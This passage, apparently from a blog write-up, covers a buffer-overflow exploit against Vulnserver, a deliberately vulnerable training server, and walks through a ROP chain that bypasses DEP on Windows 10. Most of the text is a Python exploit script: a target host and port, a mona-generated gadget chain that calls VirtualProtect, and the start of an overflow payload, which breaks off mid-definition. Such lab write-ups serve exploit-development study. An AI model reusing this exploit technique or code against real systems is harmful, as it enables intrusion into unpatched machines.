 ``` python
  rop_chain = create_rop_chain()
```

You can see that the registers are arranged exactly as we wanted.

We can incorporate that function in our exploit:

``` python
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
```